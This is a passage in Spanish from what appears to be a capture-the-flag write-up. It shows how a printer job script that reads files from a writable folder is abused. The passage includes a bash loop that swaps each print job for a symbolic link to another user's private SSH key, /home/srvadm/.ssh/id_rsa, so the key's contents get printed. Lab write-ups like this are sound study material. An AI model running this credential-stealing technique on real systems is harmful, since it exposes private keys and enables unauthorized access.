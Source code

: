 ### Printer symbolic link

Si nos vamos al directorio **/var/www/printer** y leemos el archivo **job.php** podemos ver que toma los archivos a imprimir en la carpeta **/var/www/jobs** en la cual tenemos permisos para escribir y nos regresa el contenido.

`cat /var/www/printer/job.php`

![20](img/20.png)

`ls -la /var/www/`

![21](img/21.png)

Utilizaremos un script para crear un symbolic link de la llave privada del usuario **svradm** y que nos regrese el contenido al momento de imprimir.

##### id.sh
```bash
cd /var/www/jobs;
while true;
do
        for file in $(ls .);
        do
                rm -rf $file;
                ln -s /home/srvadm/.ssh/id_rsa $file;
        done
done
```
